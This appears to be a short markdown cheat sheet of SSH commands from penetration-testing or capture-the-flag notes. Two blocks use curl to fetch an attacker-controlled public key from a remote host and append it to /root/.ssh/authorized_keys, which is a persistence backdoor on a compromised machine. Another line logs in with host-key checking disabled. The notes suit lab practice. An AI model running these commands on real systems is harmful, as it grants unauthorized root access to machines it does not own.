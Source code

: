 # SSH

Add public key to autherized keys from web server response:

```bash
curl 10.10.10.10/attacker.pub >>  /root/.ssh/authorized_keys
```

start ssh with password and server from variable, with clean slate:

```bash
sshpass -p $2 ssh -o GlobalKnownHostsFile=/dev/null -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null root@$1
```

Login with specific private key:

```bash
ssh -i <private key> <username>@<ip address>
```

Import private key:

```bash
vim <key name>
chmod 400 <key name>
```

proxy through remote host:

```bash
ssh -i key -L8000:10.10.10.1:80 10.10.10.2
ssh -i key -L8000:proxy:80 target
```

Add AuthorizedKeys:

```bash
mkdir /root/.ssh/
chmod 600 /root/.ssh
curl 10.10.10.10/rsa/htb_rsa.pub >>  /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```
